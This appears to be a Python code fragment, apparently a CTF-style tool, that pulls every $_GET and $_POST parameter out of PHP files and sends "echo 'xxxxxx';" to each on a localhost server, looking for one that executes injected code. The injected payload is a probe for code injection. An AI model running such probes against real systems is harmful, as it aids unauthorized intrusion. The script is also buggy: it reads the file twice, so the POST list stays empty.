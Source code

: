 ```py
    print('trying   '+file+ '     '+ time.asctime( time.localtime(time.time()) ))
    with open(file,encoding='utf-8') as f:							#打开php文件，提取所有的$_GET和$_POST的参数
            gets = list(re.findall('\$_GET\[\'(.*?)\'\]', f.read()))
            posts = list(re.findall('\$_POST\[\'(.*?)\'\]', f.read()))
    data = {}														#所有的$_POST
    params = {}														#所有的$_GET
    for m in gets:
        params[m] = "echo 'xxxxxx';"
    for n in posts:
        data[n] = "echo 'xxxxxx';"
    url = 'http://127.0.0.1/src/'+file
    req = session.post(url, data=data, params=params)			#一次性请求所有的GET和POST
    req.close()												# 关闭请求  释放内存
    req.encoding = 'utf-8'
    content = req.text
    #print(content)
    if "xxxxxx" in content:									#如果发现有可以利用的参数，继续筛选出具体的参数
        flag = 0
        for a in gets:
            req = session.get(url+'?%s='%a+"echo 'xxxxxx';")
            content = req.text
            req.close()												# 关闭请求  释放内存
            if "xxxxxx" in content:
                flag = 1
                break
        if flag != 1:
            for b in posts:
                req = session.post(url, data={b:"echo 'xxxxxx';"})
                content = req.text
                req.close()												# 关闭请求  释放内存
                if "xxxxxx" in content:
                    break
        if flag == 1:													#flag用来判断参数是GET还是POST，如果是GET，flag==1，则b未定义；如果是POST，flag为0，
            param = a
        else:
            param = b
        print('找到了利用文件： '+file+"  and 找到了利用的参数：%s" %param)
        print('结束时间：  ' + time.asctime(time.localtime(time.time())))
    s1.release()

for i in files:															#加入多线程
   t = threading.Thread(target=get_content, args=(i,))
   t.start()
```









